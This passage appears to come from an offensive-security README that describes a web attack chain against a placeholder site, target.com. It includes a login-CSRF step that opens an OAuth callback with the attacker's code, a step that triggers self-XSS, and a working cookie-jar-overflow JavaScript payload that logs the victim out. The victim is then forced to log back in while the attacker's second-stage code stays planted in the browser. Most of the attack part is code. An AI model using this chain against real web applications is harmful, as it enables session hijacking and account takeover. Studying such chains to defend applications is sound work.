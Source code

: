     ```
    window.open('//target.com/oauth/callback?code=attackercode');
    ...
    ```

    * **NOTES**:
        * alternatively, use any other method that logs victim user's web browser into attacker's user account (scenario-dependent)
        * compared to previous attack, prior to this step:
            * not required to log victim's user account in
            * not opening an additional window from attacker's page

3. trigger self-XSS

    (**attacker's page** - continuation)

    ```
    ...
    window.open('//target.com/selfxsspage');
    ...
    ```

    * **NOTES**:
        * at this point, within victim user's web browser, gained JavaScript code execution in context of attacker's user account
        * next:
            * plant second stage payload within attacker user account's session, which will remain active upon client-side logout
            * get victim user to log back into web application (i.e. obtain victim user account context)

4. log victim user out of web application (to lose authenticated (attacker user account) context and indirectly force victim user to log in back again, using own credentials) - [cookie jar overflow](https://github.com/lighthouseitsecurity/weaponizedXSS/tree/main/advanced/jsGadgets/cookieJarOverflow)

    (**self-XSS payload**)

    ```
    let cookJarLimit = 400;
    let postfix1 = '=a;';
    let postfix2 = '=a; expires=Thu, 01 Jan 1970 00:00:01 GMT;';
    if (location.protocol == 'https:') {
      postfix1 += ' Secure';
    }
    function fillCookieJar(inputJarLimit, inputPostfix) {
      for(let i=0; i<inputJarLimit; i++) {
        document.cookie = 'cookie' + i + inputPostfix;
      }
    }
    fillCookieJar(cookJarLimit, postfix1);
    fillCookieJar(cookJarLimit, postfix2);
    console.log(document.cookie); // no cookies in cookie jar
    ...
    ```

